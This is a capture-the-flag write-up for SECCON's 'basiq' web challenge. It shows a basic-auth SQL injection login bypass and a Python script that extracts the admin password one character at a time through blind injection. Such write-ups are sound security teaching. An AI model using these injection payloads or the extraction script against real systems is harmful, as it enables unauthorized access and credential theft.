

# basiq (web, 100, 31 solves)

> What is admin's password?☺




http://basiq.pwn.seccon.jp/admin turned out to be vulnerable to a basic auth sql injection

A simple sqli:

```
user:admin
pass:'or '1'='1
```

works


We'll use the `mid` function to iterate the admins password and brute each letter separately.

``` python 

import requests
import string

url = "http://basiq.pwn.seccon.jp/admin/"
password = "SECCON"

alphabet = "_{}" + string.lowercase + string.uppercase

for q in range(len(password)+1, 30):

	found = False

	for i in alphabet:
		r = requests.get(url=url, auth=('admin', "zaaaqwewqz' or (id = 'admin' and mid(binary pass, 1, {}) = '{}') #".format(q, password+i)))

		if(r.status_code == 200):
			password += i
			print(password)
			found = True
			break

	if(not found):
		print("Dead end :c")
		break
```
A quick explaination:

The `id` column has to be set to `admin` otherwise we'd get other players' passwords (shout-out to `SECCON{A_Sql_Injection_is_easy}`)

`binary pass` makes sure, that the compare is case sensitive.

After a few minutes of work, we got our flag: `SECCON{Carnival}`
